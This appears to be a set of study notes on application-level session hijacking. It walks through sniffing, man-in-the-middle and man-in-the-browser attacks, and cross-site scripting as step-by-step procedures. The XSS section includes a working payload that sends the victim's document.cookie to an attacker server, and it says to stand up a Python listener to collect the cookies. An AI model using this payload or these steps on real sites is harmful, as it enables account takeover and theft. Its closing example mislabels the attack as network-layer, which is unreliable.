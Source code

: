 
## Common Application-Level Session Hijacking Attacks

### 1. **Sniffing**
- **Description**: Passively monitors network traffic to capture session IDs, tokens, or cookies.
- **How It Works**:
  1. Use tools like `Wireshark` to sniff network traffic.
  2. Extract session tokens or cookies from captured packets.
  3. Inject captured tokens into your browser or API client to hijack the session.
- **Key Notes**:
  - Effective on unsecured networks or during VLAN hopping.
  - Passive until tokens are actively used.



### 2. **Man-in-the-Middle (MITM) Attacks**
- **Description**: Actively intercepts and manipulates communication between a user and a server.
- **Variants**:
  - **Man-in-the-Browser**: A malware-based MITM attack using tools like `BeEF` (Browser Exploitation Framework).
    - Hooks browsers via cross-site scripting (XSS) or direct injection.
    - Allows full control over browser actions, including stealing cookies or performing actions on behalf of the victim.

---

### 3. **Cross-Site Scripting (XSS)**
- **Description**: Injects malicious scripts into web applications to exploit user sessions.
- **Process**:
  1. Identify a vulnerable input in the web application (e.g., stored XSS).
  2. Inject a script to extract session cookies or tokens.
     - Example payload:
       ```javascript
       <script>
       new Image().src="http://attacker-server:8000/steal.php?cookie=" + document.cookie;
       </script>
       ```
  3. Set up an HTTP server (e.g., Python) to capture requests with stolen session cookies.
  4. Use captured cookies to hijack the session.
- **Variations**:
  - **Stored XSS**: Targets multiple users accessing a page.
  - **Reflected XSS**: Requires user interaction (e.g., phishing links).

**Example:**
An attacker exploits a Cross-Site Scripting (XSS) vulnerability in a web application to inject malicious JavaScript code into a user's browser. The injected malicious JavaScript code steals the user's session cookie, granting the attacker unauthorized access to the user's session on the banking website. With the session hijacked, the attacker can now impersonate the user, view account balances, initiate transactions, or perform any actions that the legitimate user would be able to do. This type of attack demonstrates how network layer session hijacking, combined with other vulnerabilities like XSS, can lead to severe security breaches and financial loss for victims.
